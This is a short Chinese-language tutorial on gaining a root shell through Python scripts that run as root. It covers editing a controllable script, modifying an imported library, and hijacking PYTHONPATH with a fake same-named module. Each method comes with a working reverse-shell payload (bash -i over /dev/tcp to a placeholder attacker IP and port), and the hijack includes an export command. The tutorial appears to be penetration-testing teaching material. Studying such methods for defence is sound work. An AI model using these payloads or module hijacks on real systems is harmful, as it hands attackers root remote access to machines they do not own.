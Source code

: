 ## 脚本内容本身可控

如果我们以root用户执行一个python脚本时，并且脚本内容可控，那么我们可以尝试直接在脚本中插入恶意代码

```
import os
os.system("bash -c 'bash -i >& /dev/tcp/攻击者IP/端口 0>&1'")
```

这种方式会直接反弹一个shell到指定的ip和端口

由于脚本以root权限运行，反弹的shell也将拥有root权限





### 脚本内容不可控

当脚本内容我们不可控，但是脚本依赖某个python库（通过import语句加载的模块），并且我们有权限修改该python库的内容时就可以注入恶意代码。

假设脚本调用了某个自定义库mylib

```
# 原脚本
import mylib
mylib.some_function()
```

那么我们就可以修改mylib函数库的some_function函数，注入恶意代码

```
# 修改后的 mylib.py
import sys
import os

def some_function():
    os.system("bash -c 'bash -i >& /dev/tcp/攻击者IP/端口 0>&1'")
```



### 劫持环境变量或模块加载路径

如果无法直接修改目标库，但可以控制Python的模块加载路径（例如通过环境变量PYTHONPATH），可以创建一个伪造的同名模块，注入恶意代码

首先查看脚本调用的模块名，如

```
import mylib
```

接着创建一个同名文件mylib.py

```
# 伪造的 mylib.py
import os

def some_function():
    os.system("bash -c 'bash -i >& /dev/tcp/攻击者IP/端口 0>&1'")
    # 可选：调用原始函数，避免功能异常
```

修改环境变量PYTHONPATH，将伪造模块所在的目录优先级提升

```
export PYTHONPATH=/path/to/fake_module:$PYTHONPATH
python example.py
```

这样python会优先加载/path/to/fake_module/mylib.py，从而执行恶意代码
